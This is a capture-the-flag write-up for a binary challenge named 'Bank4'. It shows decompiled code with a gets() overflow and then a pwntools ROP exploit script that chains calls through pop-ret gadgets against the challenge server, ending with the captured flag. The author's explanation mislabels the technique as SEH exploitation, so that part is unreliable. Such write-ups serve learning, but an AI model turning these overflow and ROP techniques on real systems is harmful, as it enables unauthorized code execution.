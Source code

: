 # **Bank4**

Pseudo code from IDA:

```c++
void __cdecl up1(int arg1, int arg2)
{
  if ( o2 && arg1 == 0x1337 && arg2 == 0xDEAD )
    o1 = 1;
}
void __cdecl up2(int arg1, int arg2, int arg3)
{
  if ( arg1 == arg2 && arg3 == 0x12345678 )
    o2 = 1;
}
void getFlag()
{
  if ( o1 && o2 )
    system("cat flag.txt");
  else
    system("echo \"hcmasd-cft{nah_nah_nah_not_today}\"");
}
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n");
}
```

I know that `getFlag` will give me the way to get flag but it requires o1 & o2 TRUE. Digging further, I can see `up1` and `up2` can help me do that. So the mission here is to call `up2`, `up1` and `getFlag` in order and with correct arguments. And I have to pass the correct arguments to functions too so I need some pop ret instructions to put them in correct places.

Here is what I found on this [site](https://dkalemis.wordpress.com/2010/10/27/the-need-for-a-pop-pop-ret-instruction-sequence/)which can help me call a function and put it in action with its arugments after wandering on the internet :

> POP POP RET is a sequence of instructions needed in order to create SEH (Structured Exception Handler) exploits. The registers to which the popped values go are not important for the exploits to succeed, only the fact that ESP is moved towards higher addresses twice and then a RET is executed. Thus, either POP EAX, POP EBX, RET, or POP ECX, POP ECX, RET or POP EDX, POP EAX, RET (and so on) will do.


>In order to create successful SEH exploits, the address of a POP POP RET sequence has to be found. This will enable the attacker to move ESP towards higher addresses twice and then transfer execution at the address where ESP points at.

TLDR: Basically SEH will help me to raise an exception which means that I can fully function a function by passing arguments then return to where it starts.

So I know that I just need to find the random address that will execute a SEH instruction. After calling the function, I need to call the SEH instruction to pass the arguments, and end it for the next function. ROPgadget will help me find it by:

```ROPgadget --binary bank4 | grep ret```

![pop](poppoppopret.PNG)

Calling `up2` then ignore the Sub, POP 3 arguments then return to call `up1`

Calling `up1` with 2 arguments and ignore 1 more pop in the same pop_pop_pop_ret address.

The exploit code:

```python

from pwn import *
import os

r = remote("61.28.237.24",30205)
#r=process("./bank4")

r.recvuntil('[+] Please enter your name: ')
offset=4
payload= "A"*64+16*"B"

pop_pop_pop_ret=p32(0x0805235e+2)#ignore sub
pop_pop_ret=p32(0x0805235e+3)#ignore 1 more pop

payload+=p32(0x080488db)+pop_pop_pop_ret        #up2
payload+=p32(0xDEAD)+p32(0xDEAD)+p32(0x12345678)#arguments
payload+=p32(0x080488a5)+pop_pop_ret            #up1
payload+=p32(0x1337)+p32(0xDEAD)                #arguments
payload+=p32(0x08048906)                        #getFlag

r.sendline(payload)
r.interactive()

#HCMUS-CTF{trungdeptrai}
```

[**Turn Back**](README.md)